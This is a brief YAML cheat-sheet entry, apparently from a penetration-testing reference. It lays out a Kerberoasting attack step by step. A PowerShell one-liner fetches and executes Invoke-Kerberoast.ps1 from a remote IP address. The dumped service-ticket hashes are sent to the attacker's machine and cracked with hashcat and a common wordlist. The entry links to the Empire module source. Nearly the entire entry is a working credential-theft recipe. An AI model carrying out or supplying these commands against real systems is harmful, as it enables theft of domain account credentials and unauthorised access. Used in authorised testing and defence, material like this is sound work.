 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
        (1) IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
        (2) Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
        (3) Transfer the file over to attacker's system for cracking
        (4) Choose the account you want to crack and make into a unique file (for speed purposes)
        (5) hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force
resources: |
  https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
---
```

